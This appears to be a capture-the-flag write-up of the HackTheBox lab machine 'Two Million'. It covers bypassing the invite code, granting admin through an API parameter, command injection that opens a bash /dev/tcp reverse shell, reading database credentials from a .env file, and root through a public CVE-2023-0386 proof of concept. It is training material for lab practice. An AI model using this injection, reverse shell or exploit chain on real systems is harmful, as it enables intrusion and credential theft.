# <center>Two Million</center>

Hello homie! Today I'll be walking you through the easy labeled HackTheBox machine named 'Two Million'. The name of this machine was given as two million because it was released when the Hack the box got 2 million users 🎉🎉.

## Recon and scanning

As usual we are given with an ip address `10.10.11.221` when we join the machine. After running the command `whatweb 10.10.11.221` we get a domain name for this ip as `2million.htb`. 
```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ whatweb 10.10.11.221
http://10.10.11.221 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.221], RedirectLocation[http://2million.htb/], Title[301 Moved Permanently], nginx
http://2million.htb/ [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[info@hackthebox.eu], Frame, HTML5, HTTPServer[nginx], IP[10.10.11.221], Meta-Author[Hack The Box], Script, Title[Hack The Box :: Penetration Testing Labs], X-UA-Compatible[IE=edge], YouTube, nginx
```
Let's add this ip and domain in /etc/hosts file.

### Port scanning

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ nmap -A -T4 10.10.11.221         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-16 16:59 IST
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.36s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Hack The Box :: Penetration Testing Labs
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.03 seconds
```

From the scan we have two ports 80, and 22 (for http and ssh) open.Now let's mess around through website (http://2million.htb).
Here we have a typical old Hack the box website.


I checked login page with some default creds, but it wasn't of any use😣. So let's first create an account here. When we click on join htb button, we are redirected to /invite page which is asking for invite code..



We don't have any code. Does that mean we are not invited??🥲

Of course not. We are Hackers. We are invited everywhere.😉
(disclaimer: By word hackers, I meant ethical hackers😁)

### Creating an account

So now let's inspect elements and check how the code is being generated and verified.

In the Network tab, we can see inviteapi.min.js file being loaded and it contains some obfuscated js code.


I gave the obfuscated js code to [de4js](https://lelinhtinh.github.io/de4js/). It deobfuscated and unpacked the js code. The deobfuscated code goes like this:
```javascript
function verifyInviteCode(code) {
  var formData = {
    "code": code
  };
  $.ajax({
    type: "POST",
    dataType: "json",
    data: formData,
    url: '/api/v1/invite/verify',
    success: function(response) {
      console.log(response)
    },
    error: function(response) {
      console.log(response)
    }
  })
}

function makeInviteCode() {
  $.ajax({
    type: "POST",
    dataType: "json",
    url: '/api/v1/invite/how/to/generate',
    success: function(response) {
      console.log(response)
    },
    error: function(response) {
      console.log(response)
    }
  })
}
```

It has two functions , one to verify the invite code and another to make invite code. `makeInviteCode()` seems responsible for generating invite code. The function is simply making post request to url `/api/v1/invite/how/to/generate`. Let's cURL it manually.

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ curl -X POST http://2million.htb/api/v1/invite/how/to/generate | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   249    0   249    0     0    217      0 --:--:--  0:00:01 --:--:--   217
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```
- Here `jq` is used to format the json output.

we have some value as data which seems to be ROT 13 encrypted which after decoded, asks us to make a post request to /api/v1/invite/generate to get invite code. You can use [cyber chef](https://cyberchef.io/) or other online tool to decrypt it.

Let's make POST request to /api/v1/invite/generate manually.
```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ curl -X POST http://2million.htb/api/v1/invite/generate | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    91    0    91    0     0    116      0 --:--:-- --:--:-- --:--:--   116
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "OFYwSkwtRU00S1QtMlpZS1otTUpHNjE=",
    "format": "encoded"
  }
}
```
and here we got the invite code in base 64 encoded form. Let's decode it.
```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ echo OFYwSkwtRU00S1QtMlpZS1otTUpHNjE= | base64 -d
8V0JL-EM4KT-2ZYKZ-MJG61
```
- using this invite code I was able to cerate an account with following creds:
    username : cyb3ritic<br>
    password : cyb3ritic<br>
    email    : test@mail.com
    
And We are in. We have logged in as cyb3ritic and the website is pretty much like the old HTB website.


It says that the site is performing database migrations, and some features are unavailable. In reality, that means most. The Dashboard, Rules, and Change Log links under “Main” work, and have nice throwback pages to the original HTB.

Under “Labs”, the only link that really works is the “Access” page, which leads to /home/access:



Clicking on “Connection Pack” and “Regengerate” both return a .ovpn file. It’s a valid OpenVPN connection config, and We can try to connect with it, but it doesn’t work.

### API

“Connection Pack” sends a GET request to /api/v1/user/vpn/generate, and “Regenerate” sends a GET to /api/v1/user/vpn/regenerate.

I’ll send on of these requests to Burp Repeater and play with the API. /api returns a description:


`/api/v1` returns the details of full API:


### Enumerating Admin api

We have 3 API endpoints under /api/v1/admin. Let's try each of them.

- when we try get request to /api/v1/admin/auth, we get a False message which signifies we are not admin.
    
- when we try post request to /api/v1/admin/vpn/generate, we get 401 unauthorized response because we are not admin.
    
- when we try put request to /api/v1/admin/settings/update, we got message as invalid content type.
    

    - let's copy the content type from response to request and resend the request. This time we got another message saying missing email parameter.
    

    - let's add email in json format and resend the request. This time we again got message saying missing is_admin parameter.
    

    - let's now add is_admin in json format and resend the request. And we finally set admin privilege to our account.
    

- Now we are admin so let's try post request to /api/v1/admin/vpn/generate which was not authorized to us before. This time also we get message saying there is a missing parameter username and when we add username to our request, we get out vpn key generated.


### Command injection

It’s probably not PHP code that generates a VPN key, but rather some Bash tools that generate the necessary information for a VPN key.

It’s worth checking if there is any command injection.

If the server is doing something like gen_vpn.sh [username], then I’ll try putting a `;` in the username to break that into a new command. I’ll also add a `#` at the end to comment out anything that might come after my input. It works:


Let's included a bash -i reverse shell command in the login.php file using system command and fired up my netcat listener on port 1234.

`bash -c "bash -i >& /dev/tcp/10.0.2.15/1234 0>&1" #`


A reverse shell will land on your netcat after you send the request.


Let's first stabilize the shell using the following command:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

The folder contains .env file which is generally used to set environment variables for use by the application. This application is more faking a .env file rather than actually using it in a framework, but the .env file still looks the same:
```bash
www-data@2million:~/html$ ls -al
total 56
drwxr-xr-x 10 root root 4096 Jun 16 16:20 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Jun 16 16:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
www-data@2million:~/html$ 
```
When we cat out the  .env file, we get following data:
```bash
www-data@2million:~/html$ cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
## Horizontal privilege Escalation

The password works fine for both su as admin and ssh.

  - 

  - 

Either way we can grab the user falg with command `cat user.txt`


## Privilege Escalation

This exploit could actually be carried out as www-data. But if I do get to admin, there is a hint as to where to look.

When I logged in over SSH, there was a line in the banner that said admin had mail. That is held in /var/mail/admin:

```bash
admin@2million:~$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
admin@2million:~$ 
```

### Identifying Vulnerability

It tells about someting related to OverlayFS / FUSE CVE. Let's google it. We get bunch of stuffs about CVE-2023-0386.

#### Exploit

There’s a [POC for this exploit](https://github.com/xkaneiki/CVE-2023-0386) on GitHub from researcher xkaneiki. The README.md is sparse, but gives enough instruction for use. 

I was not able to directly clone this repo to my target machine so I clonned it to my local machine and then downloaded to my target machine using python server.


Further i used wget command to get the folder.
```bash
wget -r http://10.10.14.70:8000/CVE-2023-0386
```

Now after going inside the folder, I followed the command from the Readme file of POC.
- `make all`
  - It throws some errors but three new binaries were generated which weren't there before.
  

- `./fuse ./ovlcap/lower ./gc`
  - It hangs. So in other window I'll run the exploit.
  

- `./exp'
  - and this command gave us the root.
  

Now, simply going to /root directory we can cat out the root flag. 

Hope this walkthrough was really interesting and you got to learn something new. Thankyou.
